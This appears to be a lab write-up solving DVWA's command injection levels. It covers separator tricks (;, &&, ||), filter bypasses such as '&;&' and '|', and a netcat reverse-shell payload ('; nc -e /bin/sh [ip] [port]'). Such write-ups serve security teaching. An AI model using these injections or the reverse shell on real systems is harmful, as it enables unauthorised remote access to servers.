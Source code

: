 # DVWA - Command Injection Solution

## Low level
> Because it doesn't filter the input text, so we can use the injection to get more information form the server.

|command|descripes|
|-|-|
|;|Can do the command behind ';'|
|&&|After the first command successful do the second|
|\|\||After the first command failure do the second|

> Usw the ';'
> 
> ![](https://i.imgur.com/iYsY42z.png)

> Usw the '&&'
> 
> ![](https://i.imgur.com/ZZYTz6Z.png)

> We can use the `; nc -e /bin/sh [ip] [port]` to connect to the server.
> We need to listen the port on our server and use the command injection to cennect.
> ![](https://i.imgur.com/FZLyZTJ.png)

## Medium level
> We can see the source code, it will filter the ';' and '&&'. So we can use '&;&' to bypass.

![](https://i.imgur.com/zpjKHp6.png)

> Or we can use the '||', '|' to bypass.
> ![](https://i.imgur.com/hdRWPMf.png)


## High level
> As we can see there is a 'space' after '|' so we can use the '|' to bypass. 
> ![](https://i.imgur.com/WNdJmM2.png)


> Example
> 
> ![](https://i.imgur.com/hEhzki6.png)

## Impossibel level 
> In this case we can see the source code.
> It split the input by '.' and check the input.
> If the input isn't a number it will echo 'ERROR: You have entered an invalid IP.'
> So we don't have the way to bypass.
> ![](https://i.imgur.com/u7ieCLz.png)
